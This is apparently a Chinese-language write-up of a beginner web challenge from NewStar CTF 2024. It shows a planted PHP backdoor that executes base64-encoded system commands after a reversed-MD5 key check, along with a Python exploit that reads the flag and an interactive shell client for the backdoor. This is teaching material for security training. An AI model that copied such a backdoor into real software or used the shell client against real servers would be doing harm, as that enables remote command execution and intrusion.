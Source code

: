 ```yaml
---
title: WriteUp
titleTemplate: ':title - NewStar CTF 2024'
---
```


# 智械危机

index.php的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看robots.txt，得到了路由/backd0or.php

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的PHP代码阅读，也对编写脚本、使用webshell的能力进行初步的考察。  
cmd参数是**base64编码后**的system命令。  
key的验证逻辑：将**cmd参数值**字符串翻转后，计算md5哈希，并与base64解码后的key进行比较。  
因此我们将这个过程反过来，就可以得到解题exp：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

exp使用了requests 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如hackbar，burp等。  
请各位新生**打好编程基础，不要浮躁**，部分新生私聊的问题我完全无法理解。这题的代码逻辑哪怕只懂一点英语也该看懂了，变量名称我都没做混淆。GPT可能会胡编，但是完全可以给你提取出足够的关键词用于搜索。  
这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag位置没赌对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式shell：

![这里理应是配图](/assets/images/wp/2024/week1/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
